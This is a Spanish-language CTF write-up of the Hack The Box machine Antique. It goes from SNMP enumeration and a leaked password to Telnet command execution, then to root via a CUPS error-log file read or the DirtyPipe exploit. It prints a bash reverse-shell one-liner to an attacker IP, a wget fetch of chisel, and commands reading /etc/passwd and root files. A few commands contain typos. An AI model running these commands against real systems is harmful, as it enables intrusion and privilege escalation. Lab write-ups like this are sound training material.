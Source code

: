 ## Summary

Tags: #UDP #Chisel #PortForwarding #GCC #Telnet #Linux #UDP #SNMP #Chisel #CUPS #Nmap 

- IP -> 10.10.11.107
- Ports -> TCP (23), UDP (161)
- OS ->  Linux
- Services & Applications
    - 23 -> Telnet
    - 161 -> SNMP 


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p23 ❮Target IP❯ -oN targeted
```
Solo encontramos el puerto 23 OPEN, por lo que decidimos escanear por UDP

```bash
❯ nmap -sU --top-ports 100 --open -T5 -v -n ❮Target IP❯     # Escaneo de puertos por UDP
```
Descubrimos el puerto 161 SNMP 

Ahora nos ponemos a explorar en ese puerto.
```bash
/usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt     # Diccionario del snmp a usar para Fuerza Bruta
```

```bash
❯ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt ❮IP❯     # Sirve para hacer Fuerza Bruta al snmp y encontrar los 'community strings'
```

```bash
❯ snmwalk -c public -v2c ❮IP❯                                                     # Sirve para poder inspeccionar el puerto SNMP

	# c = Community string, 'Public' es el mas comun
	# v2c = version

❯ snmwalk -c public -v2c ❮IP❯ 1                                                   # Colocar 1 significa que empezara desde la raiz '/' y asi poder enco0ntrar mas informacion acerca del protocolo, por default empieza desde el 2
```

* El primer comando en esta ocasion nos regresa un "HTB-PRINTER"
* El segundo nos devuelve mas informacion y ahi encontramos BITS en Hexadecimal 

```bash 
❯ echo '50 40 73 73 77 30 72 64 40 ...' | xargs | xxd -ps -r               # Nos convierte la cadena de Hex a 

	# xargs = Nos pone la cadena en una sola linea
	# xxd = Nos invierte el proceso del Hex
```
Nos regresa lo siguiente: **P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i** que es una passwd

## User

Ahora nos regresamos a Telnet y probamos con esa passwd

```bash 
❯ telnet <IP> 23                             # Iniciar sesion en Telnet en su puerto por default 23

	❯ ?                                     # Miramos el panel de ayuda, en ocasiones encontramos ‘exec system commands’ 
     ❯ exec id                               # Nos muestra el id en el que estamos
     ❯ exec ifconfig                         # Nos muestra las interfaces y su ip address
     ❯ exec bash -c “bash -i >& /dev/tcp/10.10.14.2/443 0>&1”     # Si podemos ejecutar comandos, podemos hacer una ReverShell de esta manera, IP del atacante y su puerto
```

```bash
❯ nc -nlvp 443                   # Nos ponemos en escucha para recibir la ReverShell
```
Ahora estamos adentro de la maquina 

* Le hacemos el tratamiento a la pseudoconsola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

Ahora podemos buscar la flag user.txt

```bash
❯ sudo -l                                                # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash 
❯ find / -perm -4000 -ls 2>/dev/null               # Buscaremos por privilegios SUID, con ls = Miramos los privilegios y buscamos los de root
```

```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities

❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
```
Pero tampoco encontramos algo 

```bash
❯ netstat -nat                                    # Podemos ver los puertos abiertos internos 
```
Encopntramos el puerto 631

```bash
❯ curl http://127.0.0.1:631                       # Para ver si hay contenido en ese puerto 
```
Nos muestra contenido de una pagina web llamada '**CUPS 1.6.1'

Nos traeremos ese puerto a nuestra maquina de atacante con Chisel
* [Chisel](https://github.com/jpillora/chisel)
```bash
❯ git clone https://github.com/jpillora/chisel       # Nos descargamos el Chisel
```

Dentro de Chisel 
```bash
❯ go build -ldflags “-s -w” .                        # Nos ayudara a reducir el tamaño del compilado 
❯ upx Chisel                                         # Para reducir aun mas el tamaño
```

```bash
❯ python3 -m http.server 80                          # Nos montamos un servidor http 80 para poder pasar el Chisel a la maquina victima 
```

En la maquina victima nos dirigimos al dir **/tmp** ya que el contiene permisos de lectura y escritura. Ahi ejecutamos el siguiente comando
```bash
❯ wget http://10.10.14.4/chisel                      # Para poder cargar o descargar un archivo especifico desde una IP de atacante
❯ chmod +x chisel                                    # Le damos permisos de ejecucion a Chisel
```

```bash
❯ ./chisel server --reverse -p 1234          # Server 'Maquina de atacante'
❯ ./chisel client 10.10.14.4:1234 R:631:127.0.0.1:631 # Cliente 'Maquina victima'
```
Ahora podemos ingresar de forma local a nuestro **Localhost:631**, en donde podemos irar una web. 

```bash
❯ searchsploit cups                # Para buscar un exploit
```

Buscamos en Google
* [CUPS-Explot](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb)
Si filtramos por **exec**, podemos ver que es lo que ejecuta el exploit. Ecnontramos que podemos controlar el log de error

Ahora en la maquina victima hacemos lo siguiente:
```bash
❯ which cupsctl                                               # Para ver si existe ese binario
```

```bash
❯ cupsctl ErrorLog=/etc/passwd                                # Utilizando el binario, generaremos el error
❯ curl -s -X GET http://localhost:631/admin/log/error_log     # Miramos el log y nos muestra la ruta anterior
```

## Root

```bash
❯ cupsctl ErrorLog=/root/root.txt
❯ curl -s -X GET http://localhost:631/admin/log/error_log     # Miramos el log y nos muestra la ruta anterior y podremos ver la flag de root
```


---
#### Segunda forma de explotacion 

* [Dirty-Pipe-Arinerron](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

```bash
❯ which gcc                                       

	# /usr/bin/gcc = El Dirty-Pipe nos ayudara a sobre-escribir el ''/etc/passwd' 
	# En la pagina de Arinerron nos vamos a 'exploit.c' despues le damos a RAW y copiamos el contenido en un archivo llamado 'priv.c' en la maquina victima en el dir '/tmp'

❯ gcc privesc.c -o privesc                       # Asi lo compilamos en la maquina victima
❯ ./privesc.c                                    # Ejecutamos el binario y nos convierte en root, ya que coloca a 'aaron' como usuario root y su passwd 'aaron'
❯ su root                                        # Cambiar a usuario root con el nombre aaron seteado
```

Ahora vamos por la flag de **root.txt**